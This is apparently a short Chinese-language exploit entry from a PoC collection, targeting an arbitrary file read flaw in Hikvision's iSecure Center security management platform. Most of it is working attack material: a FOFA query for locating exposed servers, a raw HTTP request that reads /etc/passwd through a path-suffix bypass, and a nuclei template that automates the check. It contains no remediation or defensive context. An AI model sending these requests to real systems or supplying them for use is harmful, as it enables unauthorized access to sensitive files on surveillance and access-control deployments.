

## 海康威视-综合安防管理平台-files-文件读取

HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备。在其某接口处存在任意文件读取漏洞，攻击者可以读取系统任意敏感文件。


## fofa
```
综合安防管理平台
```

## poc
```
GET /lm/api/files;.css?link=/etc/passwd HTTP/1.1
Host: 
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Google Chrome";v="117", "Chromium";v="117", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
```

## nuclei poc
```
id: hikvision-files-fileread

info:
  name: 海康威视-综合安防管理平台-files-文件读取
  author: hikvision-files-fileread
  severity: high

requests:
  - raw:
      - |
        GET /lm/api/files;.css?link=/etc/passwd HTTP/1.1
        Host: {{Hostname}}
        Connection: close
        Cache-Control: max-age=0
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

    matchers:
      - type: dsl
        dsl:
          - contains_all(all_headers,'attachment','fileName')

```

